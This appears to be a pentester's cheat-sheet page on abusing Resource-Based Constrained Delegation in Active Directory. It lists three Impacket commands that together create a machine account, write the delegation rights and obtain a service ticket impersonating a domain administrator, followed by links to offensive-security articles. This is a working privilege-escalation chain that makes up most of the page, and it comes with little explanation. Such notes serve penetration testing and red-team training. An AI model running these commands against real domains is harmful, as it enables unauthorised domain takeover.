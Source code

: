 # Unix Shell

## 01 - Impacket

TODO: Fill this info

```
$ addcomputer.py -computer-name "<computer_name>$" -computer-pass "<password>" -dc-ip <domain_controller_IP> <domain>/<username>:<password>

$ rbcd.py -delegate-from "<computer_name>$" -delegate-to "<target_computer_name>$" -dc-ip <domain_controller_IP> -action 'write' <domain>/<username>:<password>

$ getST.py -spn 'cifs/<FQDN>' -impersonate '<target_domain_admin_user>' -dc-ip <domain_controller_IP> <domain>/<username>:<password>
```

---
## References

### Pentester's Promiscous Notebook

- [Pentester's Promiscous Notebook: Resource-based Constrained](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd)

### Hacking Articles

- [Hacking Articles: Resource Based Constrained Delegation](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/)

### Red Teaming

- [Red Teaming:  RBCD on a Local Machine via Socks Proxy ](https://www.redteaming.org/ntlmrelayxproxy.html)